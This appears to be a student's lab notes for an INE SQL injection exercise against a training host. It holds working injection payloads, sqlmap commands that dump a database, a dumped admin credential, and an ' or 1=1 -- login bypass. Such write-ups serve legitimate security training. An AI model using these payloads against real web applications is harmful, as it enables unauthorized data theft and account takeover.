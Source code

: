 #SQL Injection Lab - RCM 8/15/2021
#INE 

#Description

In this lab you can practice the SQL Injection techniques and tools studied during the course. You can access the target web application at the following address 10.124.211.96.

#Goal

The goal of this lab is to test the web application in order to find all the vulnerable injection points. Once you find them, you should be able to dump all the data and successfully log into the web application.

#Tools

The best tools for this lab are:

    Web browser

    SQL map.

#Steps

1. Explore Web App at 10.124.211.96 & find all possible injection points.

Testing login page (login.php) with credentials a':a'
Result: susceptible to SQLi
Testing newsdetails.php
Result: susceptible to SQLi

2. Test and exploit injection points with different techniques.
- Testing UNION request on newsdetails.php page.
`10.124.211.96/newsdetails.php?id=' 'UNION SELECT user(); -- -;`
Return: awd@localhost
Moving to SQLMap.
`sqlmap -u http://10.124.211.96/newsdetails.php?id=29 -p id --technique=U`
Got a payload.
Input to URL: http://10.124.211.96/newsdetails.php?id=29%20UNION%20ALL%20SELECT%20CONCAT(0x7171787671,0x615066497054734c775947446c434665476f4e4351537358666673796b4a4958566a646e446b5774,0x7178767171)--%20-
Result from webpage:
tempusqqxvqaPfIpTsLwYGDlCFeGoNCQSsXffsykJIXVjdnDkWtqxvqq

3. Dump the data and log in to the web app.
`sqlmap -u http://10.124.211.96/newsdetails.php?id=29 --tables`
Database: awd
`sqlmap -u http://10.124.211.96/newsdetails.php?id=29 --tables -D awd --dump`
1  | admin@awdmgmt.labs                                  | S3cr3tBOFH  | Admin
Logged in using admin credentials, but the site is being worked on. NASTY HACKERS??

4. Login without using any credentials. (SQLi payload to bypass authentication)
This worked:
Email:
' or 1=1 --
Password:
' or 1=1 --


